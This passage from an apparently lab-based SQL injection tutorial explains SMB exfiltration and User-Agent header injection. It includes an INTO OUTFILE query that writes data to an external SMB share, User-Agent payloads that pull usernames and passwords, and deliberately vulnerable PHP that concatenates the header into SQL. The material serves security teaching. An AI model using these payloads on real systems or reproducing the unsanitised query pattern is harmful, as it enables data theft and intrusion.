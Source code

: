 SMB Exfiltration

SMB exfiltration involves writing query results to an SMB share on an external server. This technique is particularly effective in Windows environments but can also be configured in Linux systems with the right setup. an example query would look like SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';.

This is fully supported as Windows natively supports SMB/UNC paths. Linux (Ubuntu): While direct UNC paths are more native to Windows, SMB shares can be mounted and accessed in Linux using tools like smbclient or by mounting the share to a local directory. Directly using UNC paths in SQL queries may require additional setup or scripts to facilitate the interaction.

### Other techniques

Advanced SQL injection involves a range of sophisticated methods that go beyond basic attacks. Here are a few important advanced techniques that pentesters should be aware of:

HTTP Header Injection

HTTP headers can carry user input, which might be used in SQL queries on the server side. user-agent injectionIf these inputs are not sanitised, it can lead to SQL injection. The technique involves manipulating HTTP headers (like User-Agent, Referer, or X-Forwarded-For) to inject SQL commands. The server might log these headers or use them in SQL queries. For example, a malicious User-Agent header would look like User-Agent: ' OR 1=1; --. If the server includes the User-Agent header in an SQL query without sanitising it, it can result in SQL injection.

In this example, a web application logs the User-Agent header from HTTP requests into a table named logs in the database. The application provides an endpoint at http://10.10.140.99/httpagent/ that displays all the logged entries from the logs table. When users visit a webpage, their browser sends a User-Agent header, which identifies the browser and operating system. This header is typically used for logging purposes or to tailor content for specific browsers. In our application, this User-Agent header is inserted into the logs table and can then be viewed through the provided endpoint.

Given the endpoint, an attacker might attempt to inject SQL code into the User-Agent header to exploit SQL injection vulnerabilities. For instance, by setting the User-Agent header to a malicious value such as User-Agent: ' UNION SELECT username, password FROM user; --, an attacker attempts to inject SQL code that combines the results from the logs table with sensitive data from the user table.

Here is the server-side code that inserts the logs.

 
$userAgent = $_SERVER['HTTP_USER_AGENT'];
$insert_sql = "INSERT INTO logs (user_Agent) VALUES ('$userAgent')";
if ($conn->query($insert_sql) === TRUE) {
    echo "<p class='text-green-500'>New logs inserted successfully</p>";
} else {
    echo "<p class='text-red-500'>Error: " . $conn->error . " (Error Code: " . $conn->errno . ")</p>";
}

$sql = "SELECT * FROM logs WHERE user_Agent = '$userAgent'";
..
... 

        

The User-Agent value is inserted into the logs table using an INSERT SQL statement. If the insertion is successful, a success message is displayed. An error message with details is shown if there is an error during insertion.
